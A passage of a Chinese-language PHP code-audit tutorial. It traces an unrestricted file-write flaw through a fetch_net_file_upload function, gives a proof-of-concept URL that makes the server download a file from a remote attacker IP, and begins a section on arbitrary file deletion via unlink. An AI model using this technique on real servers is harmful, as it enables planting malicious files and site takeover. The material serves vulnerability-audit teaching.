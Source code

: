审计文件上传/写入漏洞，主要需要关注是否对文件类型、文件大小、上传路径、文件名等进行了限制。

有的项目，会将文件上传下载功能封装到一个自定义函数中，所以可以全局搜索upliad、file的函数，看看是否有自定义的函数。

也可以直接搜索`move_uploaded_file`、`file_put_contents`函数，判断参数是否可控。

全局搜索`move_uploaded_file`，发现两处调用  
![18.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a2c597fe464a93184f7d9db6022836142f02ee22.png)

在excel.php中，检查文件后缀是否为xlsx，无法上传，看第二处common.inc.php文件  
![19.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-51585451e3b4eb6af8acfed57c8f8d0a372082d0.png)

在`file_move`自定义函数中使用了`move_uploaded_file`函数，移动上传的文件，跟进`file_move`  
![20.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4565b747f98769757a37e67db2bd88efe653727b.png)

在`file_save`函数中调用，继续跟进`file_save`，找到4处调用，逐个审计，发现只有一处对文件后缀没有限制  
![21.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-75e972dd4e9f9a73d36c45e49b554eab16bf8a26.png)

`fetch_net_file_upload`函数中，通过 $url 获取文件名，存到 $extention ，然后经过拼接取得上传路径，利用`file_put_content`函数上传文件，然后调用`file_save`将上传的文件移动到新的位置

该函数中没有对上传后缀、上传大小等做限制，很显然会存在文件上传。  
接着搜索哪里调用了`fetch_net_file_upload`，找到一处调用  
![22.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-590afaeb2c49bf5a2a82b1b28467dd253c45886c.png)

可以发现上传的数据通过url参数传入，传参方式为$\_GPC，等同与$\_GP  
![23.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-5d1785fa0855ed0d36f8fbcff1a087e6cea2ddf2.png)

所以可以通过url传入远程恶意文件地址，达到文件写入的目的

##### 漏洞验证

根据文件路径构造url  
`/index.php?mod=web&act=public&do=file&op=fetch&url=http://远程IP/info.php`

![24.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-2f0a5850346a6e6382ae3e95bfd93f183a1effea.png)

访问该路径，成功写入

![25.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-0d67ca395889ee6f4b40025c4665b66f4843f86d.png)

### 3、任意文件删除审计

审计任意文件删除，需要注意是否存在`../`、`.`、`..\`等跨目录的字符过滤，是否配置了路径等

文件删除主要搜索`unlink`、`rmdir`函数，unlink 用于删除文件，rmdir用于删除文件夹

#### 任意文件删除一

全局搜索unlink，在common.inc.php中写了一个`file_delete`函数中调用了unlink删除文件  
![26.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-6bf7cc3ff5843cc049cce497e5cc64cffc322935.png)

寻找`file_delete`调用的地方，看参数可控处审计  
![27.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-3135c891be15d52a2fbd26a79c31576669835701.png)
